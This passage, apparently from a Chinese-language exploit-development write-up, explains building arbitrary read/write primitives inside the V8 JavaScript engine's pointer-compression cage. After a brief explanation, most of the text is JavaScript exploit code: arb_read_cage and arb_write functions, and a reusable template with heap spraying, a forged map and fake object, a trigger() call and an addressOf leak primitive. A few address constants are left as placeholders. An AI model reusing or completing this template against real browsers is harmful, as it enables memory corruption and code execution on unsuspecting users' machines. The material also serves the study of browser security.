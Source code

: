   

然后就是先想办法实现堆内的任意地址读写了，嗯，其实很简单，因为我们的`fake_object`是完全伪造在`spray_array`数组的`element`中的，所以我们可以直接通过`spray_array`修改`fake_object`的`element`从而就可以实现堆内的任意地址读写了（当然了，不完全任意，因为`element`要减 8，所以最开始的 8 字节无法读写）。

  

function arb_read_cage(addr) {  
    spray_array[(fake_object_addr-data_start_addr) / 8 + 1] = pair_u32_to_f64(addr-8, 0x8000);  
    return f64_to_u64(fake_object[0]);  
}  
  
function arb_write_half_cage(addr, val) {  
    let orig_val = arb_read_cage(addr);  
    fake_object[0] = pair_u32_to_f64(val, orig_val&0xffffffff);  
}  
  
function arb_write_full_cage(addr, val) {  
    spray_array[(fake_object_addr-data_start_addr) / 8 + 1] = pair_u32_to_f64(addr-8, 0x8000);  
    fake_object[0] = u64_to_f64(val);  
}  

  

所以最后模板如下：

  

var spray_array = new Array(0xf700).fill(1.1);  
var leak_object_array　= new Array(0xf700).fill({});  
var element_start_addr = ?;  
var data_element_start_addr = element_start_addr + 7;  
var map_addr = data_element_start_addr + 0x1000;  
var fake_object_array_addr = map_addr + 0x1000;   
var leak_element_start_addr = ?;  
spray_array[(map_addr        -data_start_addr) / 8] = u64_to_f64(?);  
spray_array[(map_addr 	     -data_start_addr) / 8 + 1] = u64_to_f64(?);  
spray_array[(fake_object_addr-data_start_addr) / 8] = pair_u32_to_f64(map_addr+1, 0x6cd);  
spray_array[(fake_object_addr-data_start_addr) / 8 + 1] = pair_u32_to_f64(leak_element_start_addr, 0x8000);  
  
var fake_object = trigger();  
  
function addressOf(obj) {  
    leak_object_array[0] = obj;  
    return get_fl(fake_object[0]);  
}  
  
function arb_read_cage(addr) {  
    spray_array[(fake_object_addr-data_start_addr) / 8 + 1] = pair_u32_to_f64(addr-8, 0x8000);  
    return f64_to_u64(fake_object[0]);  
}  
  
function arb_write_half_cage(addr, val) {  
    let orig_val = arb_read_cage(addr);  
    fake_object[0] = pair_u32_to_f64(val, orig_val&0xffffffff);  
}  
  
function arb_write_full_cage(addr, val) {  
    spray_array[(fake_object_addr-data_start_addr) / 8 + 1] = pair_u32_to_f64(addr-8, 0x8000);  
    fake_object[0] = u64_to_f64(val);  
}  
